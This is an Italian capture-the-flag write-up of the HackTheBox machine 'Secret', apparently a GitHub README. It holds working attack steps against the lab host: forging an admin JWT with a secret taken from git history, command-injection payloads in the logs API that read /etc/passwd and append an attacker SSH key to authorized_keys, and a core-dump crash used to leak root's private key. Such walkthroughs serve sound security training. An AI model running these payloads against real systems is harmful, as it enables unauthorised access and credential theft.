 # HTB-Secret-WriteUp
Write Up of HTB machine: Secret

Prima di poter connettersi ad una macchina di HTB è necessario scaricare il certificato della VPN dalla dashboard ed utilizzare OpenVPN:

**$openvpn [file.ovpn]**

![image](https://user-images.githubusercontent.com/65173648/150963493-27b74dcf-dc73-4008-952e-20b67bcf793f.png)

Effettuo lo scanning (fase in cui cerchiamo di raccogliere quante più informazioni possibili dall'host):

**$nmap -sS -p- -T4 -Pn -oA portScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964450-75c5a322-0788-4eea-85b4-93f372503525.png)

Effettuo l'enumeration (fase in cui cerchiamo di approndire le informazioni andando ad enumerare le porte trovare in fase di scansione):

**nmap -sV -sC –p [porte trovate separate da virgola] -oA versionScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964922-e59aae36-22f5-4b6a-901e-a12fc41d63b6.png)

Si può notare, a prima vista, che sono presenti un web server su porta 80 e un'applicazione in Node.js su porta 3000, riportanti lo stesso titolo.

Applicazione Web:

![image](https://user-images.githubusercontent.com/65173648/150966584-c3ff72de-143a-469e-a062-19af3089a506.png)

Andando a spulciare il sito a mano e investigando nelle cartelle si notano dei path interessanti da approfondire. 

Utilizzo **gobuster** e mi salvo l'output dell'enumeration:

**$gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u [IP target] | tee WebEnumeration.txt**

![image](https://user-images.githubusercontent.com/65173648/150967244-a7e380ac-d6a0-42d9-8ec8-cae82fa97c08.png)

Uno dei path interessanti è **/api** (potenziale punto d'accesso alla macchina).

La sezione relativa alla documentazione dell'applicazione web presenta un esempio di login con "theadmin". Provo a creare un utetne con le stesse credenziali ma non va a buon fine:

**curl -i -X POST \
  -H 'Content-Type: application/json' \
  -d '{"name":"theadmin", "email":"drt@dasith.works", "password":"provaPassword"}' \
  http://10.10.11.120/api/user/register**

![image](https://user-images.githubusercontent.com/65173648/150968135-0f22d504-5734-4e5e-95d6-4d3c306383d0.png)

Decido di creare un utente personale e provare a bypassare la JWT validation dato che nel file routes/verifytoken.js è presente un algoritmo JWT non specificato:

(Se riesco a bypassare la JWT, da utente user potrei diventare admin.)

**curl -i -X POST \
  -H 'Content-Type: application/json' \
  -d '{"name":"m96dgHack", "email":"m96dg@hack.it", "password":"provaPassword"}' \
  http://10.10.11.120/api/user/register**

  
 ![image](https://user-images.githubusercontent.com/65173648/150968542-a24017bf-66d5-432d-9d0c-f06b4f17b31b.png)

Effettuo il login:

**curl -i -X POST \
  -H 'Content-Type: application/json' \
  -d '{"email":"m96dg@hack.it", "password":"provaPassword"}' \
  http://10.10.11.120/api/user/login**
  
  ![image](https://user-images.githubusercontent.com/65173648/150968638-7e7393da-04f2-4bc7-9bb9-8ae554e471e7.png)

Noto che mi viene generato un **AUTH-TOKEN** e me lo conservo.

All'interno delle cartelle c'è un file .env che fa riferimento ad un TOKEN_SECRET.

Utilizzando jwt.io si può notare come sia presente una voce "secret" in basso a destra, ossia un box dove inserire il token segreto dalla "history" della cartella .git. Il token secret del file .env non è quello giusto.

Seguire i comandi degli screen che seguono:

![image](https://user-images.githubusercontent.com/65173648/150969681-588a871c-28ba-43b6-a282-2c5c7d5b3bda.png)

![image](https://user-images.githubusercontent.com/65173648/150969704-33da6ee3-3d66-43fe-a881-d65dd8dabf66.png)

![image](https://user-images.githubusercontent.com/65173648/150969732-50fdf5ba-28e3-4c14-a68a-51123f33cdc0.png)

Conservare il TOKEN_SECRET ed utilizzarlo in combo con l'AUTH-TOKEN.

La combinazione AUTH-TOKEN + TOKEN_SECRET darà luogo al nuovo token decriptato da inserire per accedere come admin (prima, però, bisogna modificare il "name" da "m96dgHack" in "theadmin").

![image](https://user-images.githubusercontent.com/65173648/150970069-d94737c6-af0e-401a-ad78-305b3dd6d10b.png)

Arrivato a questo punto, mi incuriosisce sapere se posso effettivamente sfruttare le api sia come user sia come admin (utilizzo AUTH-TOKEN e token decriptato):

**curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoibTk2ZGdIYWNrIiwiZW1haWwiOiJtOTZkZ0BoYWNrLml0IiwiaWF0IjoxNjQxNjQzMDI5fQ.l8Abgxt-ECwkhofDuNU08KoUIPAvSY8E8IZkqXUdg6c' \
  http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971154-b2bbb366-ad32-4158-8158-b73e45fa89af.png)

  
 **curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ' \
  http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971181-eff13e84-1a28-4f8e-874a-4a798b255a59.png)

Sfrutto le api per leggere il file di logs:

**curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
  ' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'**
  
 Noto l'utente "dasith" e provo ad accedere in ssh, ricordandomi le porte scansionate (porta 22 aperta).
 
 Creo una coppia di chiavi ssh e copio la mia chiave pubblica all'interno del server così da poter sfruttare la connessione in ssh:
 
 **ssh-keygen -t rsa -f secret.htb -P ''**
 
 ![image](https://user-images.githubusercontent.com/65173648/150971755-ebbbeecd-b0dc-45ff-b667-a1a3581bb317.png)

![image](https://user-images.githubusercontent.com/65173648/150971768-7dbbe444-9f5b-489e-91eb-9e64a46c9d17.png)

![image](https://user-images.githubusercontent.com/65173648/150971800-84475b47-5ffd-4f71-8545-1804a76dbb5c.png)

 
**curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
' -G 'http://10.10.11.120/api/logs' --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys"**

Una volta loggato in ssh, ho ottenuto l'accesso come utente di sistema e ricavo la flag user.txt:

 ![extra_flag_user](https://user-images.githubusercontent.com/65173648/150972236-60828c9b-c848-46fd-9163-0456f942bf2b.PNG)


Ottenuta la user flag, procedo con la **privilege escalation** (fase in cui si sfrutta l'utente di sistema per accedere all'utente root con permessi di amministratore).

Cerco di sfruttare al meglio i path a cui può accedere l'user, e noto il path /opt, in cui sono presenti 3 file interessanti (di cui 1 compilato).

Decido di runnare il file e provare ad accedere con i permessi di root:

![20_run_count](https://user-images.githubusercontent.com/65173648/150973629-7956f73a-f0c9-4bdf-995e-71375f97fc01.PNG)

Nulla di interessante!

Leggendo il file valgrind.log noto che c'è un riferimento alla memoria e decido di sfruttare il Core Dump (eseguo il programma e lo induco al crash):

![22_coredump_crash](https://user-images.githubusercontent.com/65173648/150974294-45be22c0-ea87-4679-a937-5ca3a270fced.PNG)

![23_sigsegv](https://user-images.githubusercontent.com/65173648/150974320-b7c989e2-6633-4ea1-91f9-861e5fa9c51c.PNG)


**$apport-unpack_opt_count.1000.crash /tmp/crash-report**

![24_reports](https://user-images.githubusercontent.com/65173648/150974637-1cbce728-01b3-47e3-9da8-0f5cb014e4eb.PNG)

Sfrutto **strings** per CoreDump:

![25_strings_coredump](https://user-images.githubusercontent.com/65173648/150974709-b202ed57-54dd-4d6b-98b3-18af75c4a9b7.PNG)

Dato che ottengo dei risultati importanti, decido di sfruttare lo stesso metodo con /root/.ssh/id_rsa e provare ad accedere alla chiave privata di root:

![26_crasf_for_idrsa](https://user-images.githubusercontent.com/65173648/150974882-372aeb35-7991-4782-b48c-61b1fdbdb83f.PNG)

E' possibile copiare la chiave privata di root dai risultati e provare ad accedere in ssh con essa:

![extra_root_user](https://user-images.githubusercontent.com/65173648/150975112-b57dbda8-cf9b-4915-8897-9aa899a811fe.PNG)

Una volta che si inseriscono le due flag in HTB, il gioco è fatto!

![28_pwned](https://user-images.githubusercontent.com/65173648/150975209-def9973c-d6a4-4a35-8763-4665c02dd33d.PNG)







